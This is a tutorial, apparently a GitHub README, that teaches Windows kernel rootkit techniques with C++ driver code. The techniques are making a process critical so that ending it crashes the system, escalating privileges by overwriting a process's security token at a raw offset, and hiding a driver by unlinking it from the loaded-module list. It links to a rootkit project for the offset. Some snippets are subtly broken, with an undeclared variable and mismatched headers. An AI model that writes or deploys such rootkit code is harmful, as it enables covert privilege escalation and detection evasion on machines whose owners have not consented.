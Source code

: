 ---

# Kernel Hacks 101: A Quick Guide

Here, we're diving into how to make your processes essential, copy privileges, and hide drivers.

## Required Libraries

Before you start coding, make sure to include the necessary libraries for kernel-level programming in Windows:

### Libraries to Import

- **`Windows.h`**: The main header for accessing Windows API functions.
- **`ntddk.h`**: Essential for writing device drivers and accessing kernel-mode functions.
- **`ntstatus.h`**: Contains definitions for NTSTATUS codes, useful for error handling.
- **`wdm.h`**: Provides access to Windows Driver Model functions and structures.

### Importing Libraries

Here’s how you import these libraries in your driver code:

```cpp
#include <ntddk.h>      // Core DDK functions
#include <ntstatus.h>   // NTSTATUS definitions
#include <wdm.h>        // WDM functions and structures
#include <windows.h>    // Windows API functions
```

## Make a Process Essential

### Objective

You want to make a process essential so that if it gets terminated, the system triggers a BSOD (Blue Screen of Death). This is done by using the `ZwSetInformationProcess` function.

### Function Explanation: `ZwSetInformationProcess`

- **Parameters**:
  - `hProcess`: A handle to the process you want to modify (obtained via `ZwOpenProcess`).
  - `ProcessBreakOnTermination`: An information class that specifies the information to set (this makes the process critical).
  - `BreakOnTermination`: A pointer to the value you want to set (typically `1` to enable the feature).
  - `sizeof(BreakOnTermination)`: Size of the data being sent.

- **Returns**: An NTSTATUS code indicating success or failure.

### Sample Code Snippet

```cpp
NTSTATUS MakeProcessEssential(DWORD PID) {
    NTSTATUS status;
    HANDLE hProcess;
    ULONG BreakOnTermination = 1;

    // Open the process to get a handle
    status = ZwOpenProcess(&hProcess, PROCESS_SET_INFORMATION, &clientId);
    // Check if opening was successful, then set the information
    if (NT_SUCCESS(status)) {
        status = ZwSetInformationProcess(hProcess, ProcessBreakOnTermination, &BreakOnTermination, sizeof(BreakOnTermination));
        ZwClose(hProcess);
    }
    return status; // Return the status of the operation
}
```

### Explanation of Code

1. **Opening the Process**: Use `ZwOpenProcess` to get a handle to the process specified by its PID.
2. **Setting the Flag**: If the handle is successfully obtained, `ZwSetInformationProcess` is called to set the "BreakOnTermination" flag.
3. **Handle Cleanup**: Always close the process handle to avoid leaks.

## Copy Privileges from One Process to Another

### Objective

You want to elevate the privileges of a target process by copying them from a source process.

### Function Explanation: `PsLookupProcessByProcessId`

- **Parameters**:
  - `ProcessId`: The ID of the process you want to look up.
  - `Process**`: A pointer that will receive the process object.

- **Returns**: An NTSTATUS code indicating success or failure.

### Sample Code Snippet

```cpp
NTSTATUS CopyPrivileges(ULONG srcPid, ULONG destPid) {
    PEPROCESS srcProcess, destProcess;

    // Lookup the source process by its PID
    if (NT_SUCCESS(PsLookupProcessByProcessId(ULongToHandle(srcPid), &srcProcess))) {
        // Lookup the destination process
        if (NT_SUCCESS(PsLookupProcessByProcessId(ULongToHandle(destPid), &destProcess))) {
            // Copy the security token from source to destination
            *(UINT64*)((UINT64)destProcess + TOKEN_OFFSET) = *(UINT64*)((UINT64)srcProcess + TOKEN_OFFSET);
        }
    }
    return STATUS_SUCCESS; // Return success after copying
}
```

### Explanation of Code

1. **Process Lookup**: Use `PsLookupProcessByProcessId` to obtain pointers to both the source and destination processes.
2. **Copying the Token**: The security token from the source process is copied to the destination process, effectively elevating its privileges.

## Hide a Driver

### Objective

You want to make a driver invisible in the system's loaded drivers list.

### Function Explanation: Adjusting the Load Order List

- **Function**: Modify the linked list that maintains the loaded drivers.
- **Parameters**: 
  - `DriverObject`: A pointer to the driver object you want to hide.

### Sample Code Snippet

```cpp
VOID HideDriver(PDRIVER_OBJECT DriverObject) {
    PLDR_DATA_TABLE_ENTRY entry = (PLDR_DATA_TABLE_ENTRY)DriverObject->DriverSection;
    
    // Adjust the linked list to hide the driver
    entry->InLoadOrderLinks.Blink->Flink = entry->InLoadOrderLinks.Flink;
    entry->InLoadOrderLinks.Flink->Blink = entry->InLoadOrderLinks.Blink;
}
```

### Explanation of Code

1. **Get Driver Entry**: Access the driver’s data table entry through the `DriverObject`.
2. **Modify Links**: Adjust the pointers in the linked list to effectively remove the driver from the list of loaded drivers, making it hidden.

## Wrapping Up

That’s a wrap! Now you have a better understanding of how to make a process essential, copy privileges, and hide a driver. Just remember:

- **Always test in a safe environment** (like a VM).
- **Be aware of the legal implications** of kernel-level programming.

## Resources

[for token offset](https://github.com/XaFF-XaFF/Cronos-Rootkit/tree/master)
